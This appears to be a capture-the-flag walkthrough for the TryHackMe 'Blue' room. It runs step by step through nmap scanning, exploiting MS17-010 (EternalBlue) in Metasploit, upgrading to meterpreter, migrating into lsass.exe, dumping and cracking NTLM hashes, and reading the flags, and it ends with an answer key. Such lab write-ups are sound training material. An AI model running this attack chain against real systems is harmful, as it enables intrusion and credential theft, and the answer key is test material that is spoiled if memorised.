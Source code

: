 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

``` $ nmap -Pn <ip> ```

Scanning shows us the services and ports on which they operate. Let's try to find out about distribution.

```$ nmap -A -T 5 <ip> -vv```

We can see that the machine is Windows 7.

4. Now we need to find out what the machine is vulnerable to (ms ?? - ???). So we type:

```$ nmap --script vuln <ip> -vv```

And we see smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Now let's try to access the machine.

6. Run [metasploit](https://www.metasploit.com/):

```$ msfconsole```

Search exploit to this susceptibility in msf:

```$ search ms17–010```

Now you see list available attacks. We due to the fact that we know the distribution, we choose this on Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Now we must find out what to options we must refill to attack:

```$ show options```

We see RHOST, so we complete it:

```$ set RHOSTS <ip>```

And run script:

```$ run```

We should access the console!

If necessary, make sure the exploit is working properly. Click enter and you should see a DOS shell.
Try to enter the shell background (CTRL + Z). If it fails, you may need to reboot the machine (deploy), but before that try running the script again and see if it works.

Push enter.

8. If you haven't entered the shell background (CTRL + Z). Find out on the internet how
convert shell to meterpreter in metasploit. What is the name of the post module we will use.
(Exact path, similar to the name of the exploit used).

9. Let's go back to the metasploit first:

```$ background```

Let's verify that the session still exists:

```$ session```

We should see information about the session, its type, etc.

10. Let's try to change shell to meterpreter:

```$ use multi/manage/shell_to_meterpreter```

Fill in all missing options to capture shell:

```
$ set LPORT 1234
$ set SESSION 1
```

Run:

```$ run```

If that doesn't work try create shell again.

11. Let's see the existing sessions:

```$ session```

We should see the second session, which is of type meterpreter.

Let's try to connect to it:

```$ sessions 2```

We should be able to see the meterpreter console.

12. Let's check if we escalated to NT AUTHORITY \ SYSTEM. Run this command to do this:

```$ getsystem```

We can freely change the shells from shell to meterpreter.

Let's check who we are:

```
$ shell
$ whoami
```

Now we back to meterpreter ( CTRL + Z ).

13. Just because we are a system does not mean that our process is also. Let's check the list of running processes:

```$ ps```

And remember the process id (PID).

14. Let's migrate the lsass.exe process. Having a meterpreter let's enter:

```$ migrate 708```

15. Let's dump non-primary user passwords for cracking later.

In our elevated shell (meterpreter) run the command:

```$ hashdump```

This will dump all password hashes on the computer if we have the appropriate permissions to do so.

Which user is not the default?

16. Copy the hashes to the file to crack. (these [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager) hashes, paste them as you see in the console).

Let's organize the hash to crack. (user: hash <- the last "cluster of letters" in the line after : and before :::)

e.g.
```Administrator:31d6cfe0d16(...)```

17. I will use the hashcat to crack the hash:

``` $ hashcat -a 0 -m 1000 <HashFile>.txt <WordlistToCrack e.g. rockyou.txt>.txt --force --username --show ``` <-- show only after breaking

After a while we should get the password to Jon (alqfna22)

18. Now let's look for the flags:

1) The first one is in C:\flag1.txt

2) Next in C:\Documents and Settings\Jon\Documents\flag3.txt

3) And the last one in C:\Windows\System32\config\flag2.txt

Each flag can be shown with a command: ```type```
e.g. ``` type flag1.txt ```

19. Congratulations you have completed all the tasks. Good luck!

// Completing the headings

Task 1.

2) 3

3) ms17-010

Task 2. 

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Task 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Task 4.

1) Jon

2) alqfna22

Task 5.

1) Write flag number 1

2) Write flag number 2

3) Write flag number 3 
